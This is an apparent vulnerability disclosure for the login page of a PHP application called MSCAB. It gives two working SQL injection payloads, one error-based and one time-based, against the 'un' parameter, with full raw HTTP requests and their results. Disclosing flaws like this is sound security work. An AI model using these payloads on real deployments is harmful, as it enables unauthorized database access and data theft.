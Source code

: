 BUG_Author: Xue Yue

Vulnerability url: /MSCAB/login.php

POST parameter 'un' exists SQL injection vulnerability

Payload1:un=a' and (select 6 from(select count(*),concat(0x61626364,(select (elt(66=66,1))),0x71727374,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a&up=b&log=Login

```
POST /MSCAB/login.php HTTP/1.1
Host: localhost
Content-Length: 177
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

un=a' and (select 6 from(select count(*),concat(0x61626364,(select (elt(66=66,1))),0x71727374,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a&up=b&log=Login
```

Injection success based on errors

![image](https://github.com/xyaly163/bug_report/blob/main/picture/sql1.png)

Payload2:un=a' and (select 7 from (select(sleep(10)))e)-- n&up=b&log=Login

```
POST /MSCAB/login.php HTTP/1.1
Host: localhost
Content-Length: 65
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

un=a' and (select 7 from (select(sleep(10)))e)-- n&up=b&log=Login
```

Server response time is 10 seconds

![image](https://github.com/xyaly163/bug_report/blob/main/picture/sql2.png)
